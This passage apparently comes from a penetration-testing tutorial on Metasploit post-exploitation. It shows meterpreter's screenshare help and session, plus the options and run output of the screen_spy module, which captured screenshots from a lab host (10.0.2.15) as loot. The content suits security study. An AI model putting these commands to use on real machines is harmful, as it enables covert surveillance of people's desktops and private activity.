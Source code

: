 ```

View the current interactive desktop in real time.

OPTIONS:

    -d   The stream duration in seconds (Default: 1800)
    -h   Help Banner.
    -q   The JPEG image quality (Default: '50')
    -s   The stream file path (Default: 'FteINQtk.jpeg')
    -t   The stream player path (Default: tFLOibzd.html)
    -v   Automatically view the stream (Default: 'true')
```

2. **Screenshare**

```
meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/user/CTslvACC.html
[*] Streaming...

msf exploit(multi/handler) > use post/windows/gather/screen_spy

msf post(windows/gather/screen_spy) > options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            true             yes       Record all screenshots to disk by saving them to loot
   SESSION                            yes       The session to run this module on
   VIEW_SCREENSHOTS  false            no        View screenshots automatically
```

3. **`screen_spy` post exploitation module**

```
meterpreter > run post/windows/gather/screen_spy

[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot

meterpreter > background
[*] Backgrounding session 1...

msf post(windows/gather/screen_spy) > loot -S screenspy.screenshot

Loot
====

host       service  type                  name              content    info        path
----       -------  ----                  ----              -------    ----        ----
10.0.2.15           screenspy.screenshot  screenshot.0.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200113_default_10.0.2.15_screenspy.screen_984207.jpg
10.0.2.15           screenspy.screenshot  screenshot.1.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200118_default_10.0.2.15_screenspy.screen_091374.jpg
10.0.2.15           screenspy.screenshot  screenshot.2.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200123_default_10.0.2.15_screenspy.screen_996060.jpg
10.0.2.15           screenspy.screenshot  screenshot.3.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200128_default_10.0.2.15_screenspy.screen_330156.jpg
```